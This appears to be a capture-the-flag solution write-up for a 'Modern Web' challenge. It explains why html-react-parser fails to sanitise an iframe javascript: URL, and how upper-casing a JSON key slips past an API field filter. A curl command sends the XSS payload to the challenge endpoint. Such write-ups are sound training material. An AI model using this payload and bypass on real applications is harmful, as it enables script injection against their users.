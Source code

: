 # Modern Web CTF Solution

The main thing to realise is that it might seem like `html-react-parser` is used
to sanitise the HTML from the API, but it actually doesn't, at least not fully.
So `<script>alert(1)</script>` and `<img src=404 onerror=alert(1)/>` won't work,
but `<iframe src=javascript:alert(1)></iframe>` will.

TODO: Find other XSS payloads that work and figure out why this one does
https://github.com/remarkablemark/html-react-parser/blob/v0.6.2/lib/dom-to-react.js#L55-L62

If you include a value for `email_signature` in a POST to the API, the API
removes it. But the API "normalises" the input data by converting the keys to
lowercase, so you can bypass that by using `EMAIL_SIGNATURE` as the key instead.

```sh
curl 'https://1ucl257rci.execute-api.ap-southeast-2.amazonaws.com/dev/ctf' \
  -H 'content-type: application/json' \
  --data '{"job_title":"solution","phone_number":"13","EMAIL_SIGNATURE":"<iframe src=javascript:alert(1)></iframe>"}'
```
